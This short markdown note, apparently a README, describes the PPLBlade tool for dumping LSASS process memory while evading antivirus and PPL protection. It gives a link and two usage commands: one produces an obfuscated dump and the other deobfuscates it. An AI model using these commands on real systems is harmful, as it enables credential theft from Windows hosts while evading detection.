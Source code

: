 # Dump LSASS without AV detection with PPLBlade

## Link: https://tacticaladversary.io/adversary-tactics/bypass-defender-and-ppl-protection-to-dump-lsass/?s=08

## Github repo: https://github.com/tastypepperoni/PPLBlade

### Usage:

#### 1) PPLBlade.exe --mode dothatlsassthing --obfuscate (Dump obfuscated dump file)

#### 2) PPLBlade.exe --mode descrypt --dumpname PPLBlade.dmp --key PPLBlade (Deobfuscate dump file)
